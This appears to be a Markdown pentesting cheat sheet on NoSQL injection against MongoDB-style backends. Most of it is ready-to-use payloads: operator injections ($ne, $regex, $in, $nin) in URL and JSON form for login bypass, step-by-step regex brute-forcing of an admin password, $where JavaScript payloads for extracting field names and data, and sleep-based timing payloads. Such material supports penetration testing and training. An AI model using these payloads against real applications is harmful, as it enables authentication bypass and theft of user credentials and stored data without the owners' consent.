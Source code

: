 # NoSql
NoSQL injection may enable an attacker to:
- Bypass authentication or protection mechanisms.
- Extract or edit data.
- Cause a denial of service.
- Execute code on the server.

Two types of injection
1. Syntax injection
2. Operator injection

## Syntax Injection

- [X] Detection
Try param injection with the following
  - Test 1
      ```
      '"`{
      ;$Foo}
      $Foo \xYZ
      ```
      and if injection location is URL then `'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00`
      If injection location is json then ```'\"`{\r;$Foo}\n$Foo \\xYZ\u0000```

  - Test 2
      See if there is response difference between `'''` and `'\''`
  - Test 3
    check `'` or `'+'` to see if there is change or error.
    **Warning**: Always do url encoding or unix, html, etc encoding before sending the request
- [X] Confirmation
Checking if boolean condition can be effected
  - To test this, send two requests, one with a false condition and one with a true condition. For example you could use the conditional statements `' && 0 && 'x` and `' && 1 && 'x` as follows:
- [X] Override existing condition
  - inject a JavaScript condition that always evaluates to true, such as `'||'1'=='1`
  - commenting out using null addition in the query `'%00` for url and `'\u0000` for json


## Operator injection
- [X] **Operators List**: Send different operators and review the response
`$where` - Matches documents that satisfy a JavaScript expression.
`$ne` - Matches all values that are not equal to a specified value.
`$in` - Matches all of the values specified in an array.
`$regex` - Selects documents where values match a specified regular expression.

- [X] In **JSON** messages, Nested query object `{"username":"wiener"} becomes {"username":{"$ne":"invalid"}}`.
- [X] **URL**-based inputs, Insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`
- [X] Other alternatives, 
    1. Convert the request method from GET to POST.
    2. Change the `Content-Type` header to `application/json`.
    3. Add JSON to the message body.
    4. Inject query operators in the JSON.

```
# $ne: Not equal
username[$ne]=xyz&password[$ne]=xyz
username[$ne]=xyz&password=test

# $regex: Regular expressions
username[$regex]=.*&password[$regex]=.*
username[$regex]=^xyz&password[$regex]=^xyz
username[$regex]=^a.*$&password[$ne]=xyz
username[$regex]=.{6}&password[$ne]=xyz
username[$regex]=^.{1}&password[$regex]=^.{1} # Length of values

# $exists: Exists in the database
username[$exists]=true&password[$exists]=true

# $in: Include in array
username[$in]=[admin]&password[$ne]=xyz

# $nin: Not include
username[$nin][admin]=admin&password[$ne]=xyz
# If we found the "admin" exists, we can exclude "admin" by specifying $nin operator.
username[$nin][]=admin&password[$ne]=xyz
# If more users are found, we can exclude the user.
username[$nin][]=admin&username[$nin][]=john&password[$ne]=xyz

# $gt: Greater than
username[$gt]=s&password[$gt]=s
# $lt: Lower than
username[$lt]=s&password[$lt]=s

# Combinations
username[$ne]=xyz&password[$regex]=.*
username[$exists]=true&password[$ne]=xyz
username[$ne]=xyz&password[$exists]=true
username[$regex]=.*&password[$ne]=xyz
username[$ne]=xyz&password[$regex]=.*
username[$regex]=.{6}&password[$ne]=xyz

```
After finding the username with the operator , use the operator for password e.g. $regex
```
# Check if the password length is 7 characters.
username=admin&password[$regex]=^.{7}$
# If not, change 7 to 6 (or 8 or something number).
username=admin&password[$regex]=^.{6}$
# If the number of characters turns out to be 6, brute force the character one by one.
username=admin&password[$regex]=^a.....$
username=admin&password[$regex]=^s.....$
username=admin&password[$regex]=^se....$
username=admin&password[$regex]=^sec...$

```

Operators in Json

If the above payloads not working, try changing to a json format.
We also need to change the value of the Content-Type to “application/json” in the HTTP header.
```
# Not equal
{"username": { "$ne": "xyz" }, "password": { "$ne": "xyz" }}

# $in: Include in array
{"username":{"$in":["admin","administrator",]},"password":{"$ne":""}}
``` 

### Detecting operator injection in MongoDB
`this.<field-name>` can be used in field
- [X] `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
- [X] `{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`
- [X] If query uses `$where` operator (`{"$where":"this.username == 'admin'"}`) then we can inject something conditional statements like `admin' && this.password[0] == 'a' || 'a'=='b` or `admin' && this.password.match(/\d/) || 'a'=='b`
- [X] Payload can be used for extraction `administrator' && this.password.length < 30 || 'a'=='b`
- [X] Identify field name using `admin' && this.username!=' ` where username is the field name and analyse the response for those which field exists and which does not.
- [X] Exploiting NoSQL operator injection to extract data/field names
  1. To test whether you can inject operators, you could try adding the `$where` operator as an additional parameter, then send one request where the condition evaluates to `false`, and another that evaluates to `true`. For example:
`{"username":"wiener","password":"peter", "$where":"0"}` and `{"username":"wiener","password":"peter", "$where":"1"}`
  2. If the operator injection was successful, then use `keys()` to extra data field. e.g. `"$where":"Object.keys(this)[0].match('^.{i}a.*')"`  where `i`:1-10 is the place where `a` is matched
  3. `regex` operator injection `{"username":"admin","password":{"$regex":"^.*"}}` or `{"username":"admin","password":{"$regex":"^.{i}a.*"}}` where `i`:1-10 is the place where `a` is matched


### Timing based injection
- [x] Take a lot of request and calculate the average response time
- [x] Insert time payload `{"$where": "sleep(5000)"}`
  - [x] `admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'`
  - [x] `admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'`
- [x] Check whether response is delayed or not